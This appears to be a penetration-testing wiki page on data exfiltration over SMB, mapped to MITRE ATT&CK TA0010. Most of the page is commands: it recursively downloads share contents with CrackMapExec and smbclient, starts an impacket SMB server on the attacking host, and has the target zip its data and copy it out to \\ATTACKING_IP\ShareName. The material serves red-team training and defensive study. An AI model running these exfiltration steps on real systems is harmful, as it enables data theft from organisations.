 ```yaml
---
description: MITRE ATT&CK™ - Exfiltration - Tactic TA0010
---
```


# Over SMB

## Theory

SMB (Server Message Block) exfiltration refers to the unauthorized extraction or transfer of data from a compromised network or system using SMB protocols. Attackers can leverage SMB to transfer sensitive or valuable information from an organization's network to an external location.

## Practice

### Exfiltrate Share's Content

{% tabs %}
{% tab title="CrackMapExec" %}
Tools like [CrackMapExec](https://github.com/Porchetta-Industries/CrackMapExec) can be used to recursively download a SMB share's content.

```bash
crackmapexec smb $IP -u $USERNAME -p $PASSWORD -M spider_plus -o DOWNLOAD_FLAG=True MAX_FILE_SIZE=999999
```

The previous command generates a json file with the list of accessible files in shares. We may use jq to parse this json output.

```bash
cat 10.10.10.111.json | jq '. | map_values(keys)'
```


{% endtab %}

{% tab title="smbclient" %}
Tools like [smbclient](https://www.samba.org/samba/docs/current/man-html/smbclient.1.html) can be used to recursively download a SMB share's content.

```bash
# In an smbclient interactive session
recurse ON
prompt OFF
mget *
```
{% endtab %}
{% endtabs %}

### Exfiltrate Data

{% tabs %}
{% tab title="UNIX-like" %}
To exfiltrate the data from the target, we can compress the data and transfer it via an SMB shared folder hosted on our attacking host.

First, start a SMB server on your attacking host using [smbserver.py](https://github.com/fortra/impacket/blob/master/examples/smbserver.py) from impacket

```bash
smbserver.py -smb2support /local/share/path ShareName -user veresk -password psswd
```

On the target, compress target data

```powershell
Compress-Archive -Path /path/to/compress -DestinationPath exfi.zip
```

From the target, mount the share folder and copy files to it

```powershell
# Mount the smb share
net use Z: \\ATTACKING_IP\ShareName psswd /USER:veresk

# Exfiltrate ZIP file
copy exfi.zip Z:\
```
{% endtab %}
{% endtabs %}
